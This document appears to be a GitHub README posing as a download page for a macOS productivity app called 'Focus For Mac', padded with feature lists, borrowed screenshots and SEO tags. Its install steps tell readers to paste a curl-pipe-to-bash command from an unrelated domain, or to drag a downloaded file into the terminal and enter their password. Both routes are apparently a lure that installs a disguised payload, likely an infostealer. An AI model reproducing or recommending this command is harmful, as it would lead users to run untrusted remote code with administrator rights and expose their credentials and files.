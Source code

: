 # Focus For Mac — Download For macOS

Focus For Mac is a powerful productivity tool designed to enhance your workflow on macOS. Follow the instructions below to install it effortlessly and boost your focus with distraction-free features! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/focus)

If you encounter issues downloading via the button above, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Focus For Mac For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

Focus For Mac empowers you to stay productive with these key features:

- 🕒 **Pomodoro Timer**: Work in focused intervals with customizable timers to maximize efficiency.
- 🚫 **Distraction Blocker**: Block distracting websites and apps during work sessions.
- 📊 **Progress Tracking**: Monitor your productivity with detailed reports and insights.
- 🎨 **Customizable Interface**: Personalize themes and layouts to suit your workflow.
- 🔄 **Cross-Device Sync**: Sync your settings and progress across multiple macOS devices.
- 🔔 **Smart Notifications**: Get gentle reminders to stay on track without disruptions.

---

## About Focus For Mac

Focus For Mac is a productivity application tailored for macOS users who want to optimize their time and eliminate distractions. Whether you're a student, professional, or freelancer, this free productivity tool helps you stay on task with its intuitive design and powerful features. By integrating a Pomodoro timer, website blocker, and progress tracking, Focus For Mac ensures you achieve your goals efficiently. The software is lightweight, secure, and optimized for macOS, making it a must-have for anyone seeking a free focus app for Mac.

The Pomodoro technique, a cornerstone of Focus For Mac, allows users to break their work into manageable intervals, typically 25 minutes of focused work followed by a 5-minute break. This method, combined with the app’s distraction-blocking capabilities, makes it an ideal productivity software for Mac users. You can customize the timer durations and block specific websites or apps that might derail your focus, ensuring a distraction-free environment tailored to your needs.

For those who thrive on data-driven insights, Focus For Mac offers robust progress tracking. The app generates detailed reports on your work sessions, helping you identify patterns and optimize your productivity. Whether you’re preparing for exams, managing projects, or working on creative tasks, this free Mac app provides the tools to stay organized and motivated.

Security and ease of use are at the heart of Focus For Mac. The application is designed to integrate seamlessly with macOS, requiring minimal system resources while delivering maximum performance. Its cross-device sync feature ensures that your settings and progress are accessible across all your macOS devices, making it a versatile productivity tool for users on the go.

### Why Choose Focus For Mac?

Focus For Mac stands out among other productivity apps due to its simplicity, customization, and focus on user experience. Unlike other tools that overwhelm with complex features, this free focus app for Mac prioritizes ease of use without compromising functionality. Its sleek, macOS-native interface, combined with powerful features like distraction blocking and progress tracking, makes it the best free productivity software for Mac users looking to enhance their workflow.

---

## 🖼 Preview

![Main Interface](https://heyfocus.com/uploads/1696056286-cleanshot-2023-09-29-at-23-18-50-2x-jpg)  
*Clean and intuitive main interface with Pomodoro timer and distraction blocker.*

![Progress Tracking](https://photos5.appleinsider.com/gallery/43236-83951-001-Choosing-Focus-Mode-on-Mac-xl.jpg)  
*Detailed progress reports to track your productivity over time.*

![Customization Options](https://cdn.mos.cms.futurecdn.net/DrYtq9LRW8DaHjsvFjhDgj.jpg)  
*Personalize themes and layouts for a tailored experience.*

---

## 🔍 Tags

focus for mac, focus download, focus free download, focus free mac, focus download free, free productivity app,  free focus app, focus for mac free, focus download mac, focus mac os, focus free mac os
